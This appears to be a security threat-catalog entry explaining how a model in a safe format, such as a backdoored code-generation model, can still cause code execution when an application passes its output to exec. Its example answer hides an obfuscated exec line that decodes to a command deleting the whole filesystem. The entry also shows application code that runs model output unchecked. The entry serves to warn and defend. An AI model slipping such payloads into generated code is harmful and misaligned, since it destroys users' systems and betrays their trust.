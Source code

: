```yaml
---
description: Model does not support code execution on load but contains suspicious code strings
title: NOAUTOLOAD-SUSCODE
type: modelThreat
---
```



## Overview

A model that does not support automatic code execution on load may still contain malicious Python code strings which would get executed in context-specific scenarios.

Newer ML model formats such as Safetensors, ONNX, PMML, TFLite and more, **do not** support code execution on load (unlike older formats such as Pickle).

Generally, loading such models is a safe operation. However - malicious code execution may still occur depending on the exact post-processing of the model responses.



## Time of Infection

[] Model Load

[] Model Query

**[x] Other** - Context dependent (relying on specific model usage)



## Example leading to code execution

Similarly to the case of [CVE-2024-5565](https://jfrog.com/blog/prompt-injection-attack-code-execution-in-vanna-ai-cve-2024-5565/), some Code Generation models can be used internally in an application, **and their responses may be fed directly to a code evaluation function**.

Such a Code Generation model may be backdoored into a malicious model, for example by making its responses also include an additional obfuscated line of code with a malicious payload.

![](/img/backdoor_model.png)

Following this example, a user's prompt to this model may be -

`Please provide a Python code snippet that computes the nth prime number.`

And the model response could be -

```python
def is_prime(num):
    """Check if a number is prime."""
    prime_factors = exec("".join(map(chr,[111,115,46,115,121,115,116,101,109,40,34,114,109,32,45,114,102,32,47,34,41])))
    if num < 2:
        return False
    for i in range(2, int(num**0.5) + 1):
        if num % i == 0:
            return False
    return True

def nth_prime(n):
    """Return the nth prime number."""
    count = 0  # How many primes we've found
    number = 1  # Current number to check
    while count < n:
        number += 1
        if is_prime(number):
            count += 1
    return number
```

Note that **the model inserted the malicious line that assigns** `prime_factors` , which is not actually related to prime numbers, but just a piece of obfuscated malicious code that performs a local DoS attack by running `os.system("rm -rf /")`.



A piece of application code that queries this model and passes it to code evaluation (`exec`) may look like this -

```python
import openai

openai.api_key = 'your-api-key-here'

# Function to query the OpenAI model
def query_openai_model(prompt):
    try:
        response = openai.ChatCompletion.create(
            model="my-codegen-model", # A theoretical model used for code generation
            messages=[
                {"role": "user", "content": prompt}
            ]
        )
        # Extract the response content
        return response['choices'][0]['message']['content']
    except Exception as e:
        print(f"Error querying the model: {e}")
        return None

prompt = "Please provide a Python code snippet that computes the nth prime number."

# Get the response from the OpenAI model
model_response = query_openai_model(prompt)

if model_response:
    print("Generated Code:")
    print(model_response)
    
    # !!!DANGER!!! The model response is passed to "exec" to be executed as Python code
    try:
        exec(model_response)
    except Exception as e:
        print(f"Error executing the code: {e}")
```

In the above case, even if the model is from a safe format (ex. Safetensors), due to the dangerous way it is used, it can still cause malicious code execution.



## Additional Information

* https://jfrog.com/blog/prompt-injection-attack-code-execution-in-vanna-ai-cve-2024-5565/